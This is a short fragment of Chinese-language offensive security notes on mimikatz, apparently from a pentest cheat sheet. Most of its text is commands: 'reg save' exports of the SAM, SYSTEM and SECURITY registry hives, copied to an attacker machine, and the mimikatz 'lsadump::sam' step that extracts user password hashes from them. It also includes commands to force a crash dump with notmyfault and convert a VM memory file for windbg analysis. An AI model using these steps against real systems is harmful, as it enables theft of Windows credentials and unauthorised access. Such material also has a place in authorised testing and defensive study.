 ### sam + mimikatz

> 注意：本地复原机器必须与目标机器一致，且需要在系统权限下执行

从 sam 中提取目标系统用户 hash
```bash
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
```

将上述三个文件复制到攻击机本地，然后使用 mimikatz 获取用户 hash
```bash
lsadump::sam /system:system.hiv /sam:sam.hiv /security:security.hiv
```

### windbg 中载入 mimilib 模块

可通过 notmyfault 强制蓝屏
- https://docs.microsoft.com/en-us/sysinternals/downloads/notmyfault
    ```
    notmyfault64.exe -accepteula /crash
    ````

    ![](../../../assets/img/Security/安全工具/mimikatz/16.png)

也可以使用 Bin2Dmp 将 vmem 文件转为 dmp 文件
```
Bin2Dmp.exe "Windows Server 2008 x64.vmem" win2k8.dmp
```
